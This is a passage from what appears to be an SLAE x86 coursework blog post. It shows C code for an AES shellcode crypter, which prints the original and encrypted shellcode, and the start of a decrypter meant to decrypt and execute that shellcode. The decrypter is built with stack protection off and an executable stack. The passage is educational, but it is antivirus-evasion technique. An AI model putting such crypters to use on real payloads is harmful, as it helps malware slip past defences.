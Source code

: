 ```c
  int buffer_len = 64; 

  buffer = calloc(1, buffer_len);
  // Copy the shellcode to a buffer
  strncpy(buffer, shellcode, buffer_len);

  printf("\n==Original Shellcode==\n");
  for(ctr=0;ctr<shellcode_len;ctr++){
	printf("\\x%02x", shellcode[ctr]&0xff);
  }
  printf("\n");

  //Encrypt buffer
  AES_ENCRYPT(buffer, buffer_len, IV, key, keysize); 

  printf("\n==Encrypted Shellcode==\n");
  for(ctr=0;ctr<buffer_len;ctr++){
       printf("\\x%02x", buffer[ctr]&0xff);
  }
  printf("\n\n");

  return 0;
}
```
Lets compile this and run the Crypter executable.
![asn-7-crypter-out](/assets/SLAE-x86/asn-7-crypter-out.PNG)

As we can see, the encrypted shellcode length is few bytes more than the original shellcode, infact it is equal to the buffer size we have specified in the code [64]. Our buffer length should be such that it should accomodate our shellcode and should be k*algorithms_block_size.

With that out of the way, lets move on to the decryption.
### Decryption Implementation
The Decrytper will decrypt the encryted shellcode and will pass control to the decrypted shellcode once decryption is completed. Below is the fully commented code for the decrypter.
```c
/*
* Author	: RIZAL MUHAMMED (UB3RSiCK)
* Description	: Decrypts AES-RIJNDAEL-128-CBC Encrypted shellcode and Executes
* Filename	: AESCrypter.c
*
* sudo apt-get install libmcrypt-dev
* gcc AESDeCryptExec.c -o AESDeCryptExec -lmcrypt -fno-stack-protector -z execstack
*
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#include <mcrypt.h>

#include <math.h>
#include <stdint.h>
#include <stdlib.h>

// Function that Decrypts the shellcode
```